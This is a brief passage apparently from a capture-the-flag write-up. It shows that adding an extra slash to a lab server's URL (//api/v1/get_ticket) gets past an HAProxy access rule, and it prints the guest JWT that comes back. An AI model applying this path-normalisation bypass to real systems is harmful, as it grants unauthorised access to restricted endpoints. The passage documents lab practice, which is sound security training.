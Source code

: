 ![Alt text](images/image-1.png)

If we try to access the API endpoint directly and manipulate the URL with a extra `/` we can bypass the `haproxy` rule:

```
http://94.237.58.155:57483//api/v1/get_ticket
```

```json
{
    "ticket: ": "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA0MTA3OTksImlhdCI6MTcxMDQwNzE5OSwianRpIjoidWltSkd6Z3VmeXpqMnczT1l3UTVSUSIsIm5iZiI6MTcxMDQwNzE5OSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.Somq4HqjlowSFEGbTWlL0Pds7wx8aiwwA3IYDXoB0unKY0ik7nCPjMKOqNc4PUjYC1uYY4l-DUOtmEwcFvEuRa52Ksbr2kd2e4DR3Sz0_UVetTIGHv9Qwx95jeR7gvWb7yWNqyCrgyXWbo-GiYsFpAxIyyWmt4vW22tow9B_WO4Z1SiD0jln-dOtimcEOiF954YpbZGHNHBu5j2ZvVG1ei9rQFVeGJKRDw-ppbQTWRGF1Y3v794k4PAfKjXVQ0c4c2a8KE8FtevJPeGXPBZs0RqpU7m5yDqlBx59OzZRnq01zlXNZYEiaURymBaBSFP3o4LNj2QUSYq7sUgnpK3G_Q"
}
```

Nice! Now we have a JWT token!

